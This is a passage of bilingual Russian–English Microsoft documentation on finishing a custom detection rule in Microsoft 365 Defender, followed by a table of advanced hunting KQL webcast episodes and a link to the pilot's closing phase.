4. <span data-ttu-id="2a5d9-355">Определите, какие действия должны происходить, если срабатывает оповещение.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-355">Determine what actions should take place if the alert is triggered.</span></span> <span data-ttu-id="2a5d9-356">В этом случае запустите антивирусное сканирование, хотя можно выполнить другие действия.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-356">In this case, run an antivirus scan, though other actions could be taken.</span></span>

   

5. <span data-ttu-id="2a5d9-358">Выберите область для правила оповещения.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-358">Select the scope for the alert rule.</span></span> <span data-ttu-id="2a5d9-359">Так как этот запрос включает устройства, группы устройств релевантны в этом настраиваемом обнаружении в соответствии с контекстом Microsoft Defender для конечной точки.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-359">Since this query involve devices, the device groups are relevant in this custom detection according to Microsoft Defender for Endpoint context.</span></span> <span data-ttu-id="2a5d9-360">При создании настраиваемой системы обнаружения, которая не включает устройства в качестве сущностями, область не применяется.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-360">When creating a custom detection that does not include devices as impacted entities, scope does not apply.</span></span>

   

   <span data-ttu-id="2a5d9-362">Для этого пилотного проекта может потребоваться ограничить это правило подмножество устройств тестирования в производственной среде.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-362">For this pilot, you might want to limit this rule to a subset of testing devices in your production environment.</span></span>

6. <span data-ttu-id="2a5d9-363">Нажмите **Создать**.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-363">Select **Create**.</span></span> <span data-ttu-id="2a5d9-364">Затем выберите **настраиваемые правила обнаружения** из панели навигации.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-364">Then, select **Custom detection rules** from the navigation panel.</span></span>

   

   

   <span data-ttu-id="2a5d9-367">На этой странице можно выбрать правило обнаружения, которое откроет страницу сведений.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-367">From this page, you can select the detection rule, which will open a details page.</span></span>

   

### <a name="additional-advanced-hunting-walk-through-exercises"></a><span data-ttu-id="2a5d9-369">Дополнительные расширенные упражнения по ходьбе для охоты</span><span class="sxs-lookup"><span data-stu-id="2a5d9-369">Additional advanced hunting walk-through exercises</span></span>

<span data-ttu-id="2a5d9-370">Чтобы узнать больше о продвинутой охоте, в следующих веб-трансляциях вы узнаете о возможностях продвинутой охоты в Microsoft 365 Defender, чтобы создать многостоловые запросы, переходить к сущности и создавать настраиваемые обнаружения и действия по исправлению.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-370">To learn more about advanced hunting, the following webcasts will walk you through the capabilities of advanced hunting within Microsoft 365 Defender to create cross-pillar queries, pivot to entities and create custom detections and remediation actions.</span></span>

> [!NOTE]
> <span data-ttu-id="2a5d9-371">Будьте готовы с помощью собственной учетной записи GitHub выполнить запросы на охоту в среде экспериментальной лаборатории тестирования.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-371">Be prepared with your own GitHub account to run the hunting queries in your pilot test lab environment.</span></span>

|<span data-ttu-id="2a5d9-372">Заголовок</span><span class="sxs-lookup"><span data-stu-id="2a5d9-372">Title</span></span>|<span data-ttu-id="2a5d9-373">Описание</span><span class="sxs-lookup"><span data-stu-id="2a5d9-373">Description</span></span>|<span data-ttu-id="2a5d9-374">Загрузка MP4</span><span class="sxs-lookup"><span data-stu-id="2a5d9-374">Download MP4</span></span>|<span data-ttu-id="2a5d9-375">Смотреть на YouTube</span><span class="sxs-lookup"><span data-stu-id="2a5d9-375">Watch on YouTube</span></span>|<span data-ttu-id="2a5d9-376">CSL-файл для использования</span><span class="sxs-lookup"><span data-stu-id="2a5d9-376">CSL file to use</span></span>|
|---|---|---|---|---|
|<span data-ttu-id="2a5d9-377">Эпизод 1. Основы KQL</span><span class="sxs-lookup"><span data-stu-id="2a5d9-377">Episode 1: KQL fundamentals</span></span>|<span data-ttu-id="2a5d9-378">Мы покроем основы расширенных возможностей охоты в Microsoft 365 Defender.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-378">We'll cover the basics of advanced hunting capabilities in Microsoft 365 Defender.</span></span> <span data-ttu-id="2a5d9-379">Сведения о доступных расширенных данных охоты и основных синтаксисах и операторах KQL.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-379">Learn about available advanced hunting data and basic KQL syntax and operators.</span></span>|[<span data-ttu-id="2a5d9-380">MP4</span><span class="sxs-lookup"><span data-stu-id="2a5d9-380">MP4</span></span>](https://aka.ms/MTP15JUL20_MP4)|[<span data-ttu-id="2a5d9-381">YouTube</span><span class="sxs-lookup"><span data-stu-id="2a5d9-381">YouTube</span></span>](https://youtu.be/0D9TkGjeJwM)|[<span data-ttu-id="2a5d9-382">Эпизод 1. CSL-файл в Git</span><span class="sxs-lookup"><span data-stu-id="2a5d9-382">Episode 1: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl)|
|<span data-ttu-id="2a5d9-383">Эпизод 2. Присоединяется</span><span class="sxs-lookup"><span data-stu-id="2a5d9-383">Episode 2: Joins</span></span>|<span data-ttu-id="2a5d9-384">Мы продолжим изучение данных в области предварительной охоты и совместной работы с таблицами.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-384">We'll continue learning about data in advanced hunting and how to join tables together.</span></span> <span data-ttu-id="2a5d9-385">Узнайте о внутренних, внешних, уникальных и полусемейных присоединяется, а также нюансы присоединиться по умолчанию Kusto innerunique.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-385">Learn about inner, outer, unique, and semi joins, and the nuances of the default Kusto innerunique join.</span></span>|[<span data-ttu-id="2a5d9-386">MP4</span><span class="sxs-lookup"><span data-stu-id="2a5d9-386">MP4</span></span>](https://aka.ms/MTP22JUL20_MP4)|[<span data-ttu-id="2a5d9-387">YouTube</span><span class="sxs-lookup"><span data-stu-id="2a5d9-387">YouTube</span></span>](https://youtu.be/LMrO6K5TWOU)|[<span data-ttu-id="2a5d9-388">Эпизод 2. CSL-файл в Git</span><span class="sxs-lookup"><span data-stu-id="2a5d9-388">Episode 2: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl)|
|<span data-ttu-id="2a5d9-389">Эпизод 3. Обобщение, развязка и визуализация данных</span><span class="sxs-lookup"><span data-stu-id="2a5d9-389">Episode 3: Summarizing, pivoting, and visualizing data</span></span>|<span data-ttu-id="2a5d9-390">Теперь, когда мы можем фильтровать, управлять данными и присоединяться к ним, пришло время начать суммирование, количественную оценку, поворот и визуализацию.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-390">Now that we're able to filter, manipulate, and join data, it's time to start summarizing, quantifying, pivoting, and visualizing.</span></span> <span data-ttu-id="2a5d9-391">В этом выпуске мы покроем оператор суммы и некоторые вычисления, которые можно выполнить, погрузився в дополнительные таблицы в продвинутой схеме охоты.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-391">In this episode, we'll cover the summarize operator and some of the calculations you can perform while diving into additional tables in the advanced hunting schema.</span></span> <span data-ttu-id="2a5d9-392">Мы превращаем наборы данных в диаграммы, которые помогут улучшить анализ.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-392">We turn our datasets into charts that can help improve analysis.</span></span>|[<span data-ttu-id="2a5d9-393">MP4</span><span class="sxs-lookup"><span data-stu-id="2a5d9-393">MP4</span></span>](https://aka.ms/MTP29JUL20_MP4)|[<span data-ttu-id="2a5d9-394">YouTube</span><span class="sxs-lookup"><span data-stu-id="2a5d9-394">YouTube</span></span>](https://youtu.be/UKnk9U1NH6Y)|[<span data-ttu-id="2a5d9-395">Эпизод 3. CSL-файл в Git</span><span class="sxs-lookup"><span data-stu-id="2a5d9-395">Episode 3: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl)|
|<span data-ttu-id="2a5d9-396">Эпизод 4. Давайте охотиться!</span><span class="sxs-lookup"><span data-stu-id="2a5d9-396">Episode 4: Let's hunt!</span></span> <span data-ttu-id="2a5d9-397">Применение KQL для отслеживания инцидентов</span><span class="sxs-lookup"><span data-stu-id="2a5d9-397">Applying KQL to incident tracking</span></span>|<span data-ttu-id="2a5d9-398">Время отслеживать действия злоумышленников!</span><span class="sxs-lookup"><span data-stu-id="2a5d9-398">Time to track some attacker activity!</span></span> <span data-ttu-id="2a5d9-399">В этом выпуске мы будем использовать улучшенное понимание KQL и улучшенную охоту в Microsoft 365 Defender для отслеживания атаки.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-399">In this episode, we'll use our improved understanding of KQL and advanced hunting in Microsoft 365 Defender to track an attack.</span></span> <span data-ttu-id="2a5d9-400">Узнайте некоторые советы и приемы, используемые в поле для отслеживания активности злоумышленников, включая АБС кибербезопасности и их применение к реагированию на инциденты.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-400">Learn some of the tips and tricks used in the field to track attacker activity, including the ABCs of cybersecurity and how to apply them to incident response.</span></span>|[<span data-ttu-id="2a5d9-401">MP4</span><span class="sxs-lookup"><span data-stu-id="2a5d9-401">MP4</span></span>](https://aka.ms/MTP5AUG20_MP4)|[<span data-ttu-id="2a5d9-402">YouTube</span><span class="sxs-lookup"><span data-stu-id="2a5d9-402">YouTube</span></span>](https://youtu.be/2EUxOc_LNd8)|[<span data-ttu-id="2a5d9-403">Эпизод 4. CSL-файл в Git</span><span class="sxs-lookup"><span data-stu-id="2a5d9-403">Episode 4: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl)|
|

## <a name="next-step"></a><span data-ttu-id="2a5d9-404">Следующий шаг</span><span class="sxs-lookup"><span data-stu-id="2a5d9-404">Next step</span></span>

|<span data-ttu-id="2a5d9-405"></span><span class="sxs-lookup"><span data-stu-id="2a5d9-405"></span></span> <br>[<span data-ttu-id="2a5d9-406">Этап закрытия и сводки</span><span class="sxs-lookup"><span data-stu-id="2a5d9-406">Closing and summary phase</span></span>](mtp-pilot-close.md)|<span data-ttu-id="2a5d9-407">Проанализируйте результаты пилотного проекта Microsoft 365 Defender, предокайте их заинтересованным лицам и примите следующий шаг.</span><span class="sxs-lookup"><span data-stu-id="2a5d9-407">Analyze your Microsoft 365 Defender pilot outcome, present them to your stakeholders, and take the next step.</span></span>
|:-----|:-----|